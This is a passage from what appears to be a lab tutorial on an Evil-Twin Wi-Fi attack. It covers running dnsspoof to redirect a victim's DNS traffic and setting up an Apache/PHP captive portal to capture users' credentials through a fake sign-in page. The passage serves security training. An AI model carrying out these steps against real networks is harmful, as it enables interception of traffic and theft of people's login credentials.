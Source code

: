 Lastly, we start `dnsspoof` on the `wlan1` interface to redirect all traffic from the victim's device to our attacker's IP address. This step allows us to intercept and monitor the client's communications.

```shell
sudo dnsspoof -i wlan1

dnsspoof: listening on wlan1 [udp dst port 53 and not src 192.168.0.1]

```

* * *

### 3\. Setup the captive portal

For our manual Evil-Twin attack setup, we will use an Apache server with PHP to capture credentials. This setup provides flexibility, allowing us to easily switch between different templates for our attack. Additionally, by utilizing the Apache rewrite engine and redirecting all traffic to our web server, we can ensure that users are prompted to log in to our network. The goal is to lure users into clicking the sign-in prompt, which will direct them to our captive portal, where their credentials can be captured.

![wpa2](1tF90Gub4eW0.png)

The captive portal is pre-configured within the lab environment, allowing us to focus directly on executing the attack and analyzing the results without manually setting up and configuring the entire infrastructure. The following setup steps are provided solely for demonstration purposes.

We install the necessary tools required to host a captive portal using following command:

```shell
sudo apt-get install apache2 php libapache2-mod-php

```

Then we want to activate the rewrite engine for Apache

```shell
sudo a2enmod rewrite

```

Then we need to change part of our apache configuration file located at `/etc/apache2/apache2.conf` to allow overrides. We replace `AllowOverride none` with `AllowOverride all` for our relevant directories. For Apache2 we will be using the default `/var/www/html` directory for our captive portal.

We change a portion of the configuration file to have the following.

#### Original Config

```Apache2.conf
...
<Directory />
	Options FollowSymLinks
	AllowOverride None
	Require all denied
</Directory>
<Directory /var/www/>
	Options Indexes FollowSymLinks
	AllowOverride None
	Require all granted
</Directory>

```
